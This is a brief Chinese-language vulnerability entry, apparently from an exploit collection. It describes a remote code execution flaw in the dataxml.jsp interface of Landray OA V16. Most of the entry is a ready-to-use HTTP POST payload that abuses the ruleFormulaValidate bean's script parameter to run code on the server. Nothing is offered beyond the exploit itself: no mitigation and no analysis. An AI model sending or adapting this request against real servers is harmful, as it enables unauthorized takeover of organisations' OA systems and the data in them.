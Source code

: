 **漏洞描述：**

蓝凌OA dataxml,jsp接口存在RCE漏洞，攻击者可以通过接口执行脚本来获取服务器权限。

**影响版本：**

蓝凌OA V16

**Payload：**

```
POST /resource/help/kms/knowledge/dataxml.jsp HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
Content-Length: 17392
Content-Type: application/x-www-form-urlencoded

s_bean=ruleFormulaValidate&script=shell&returnType=int&modelName=test
```

---
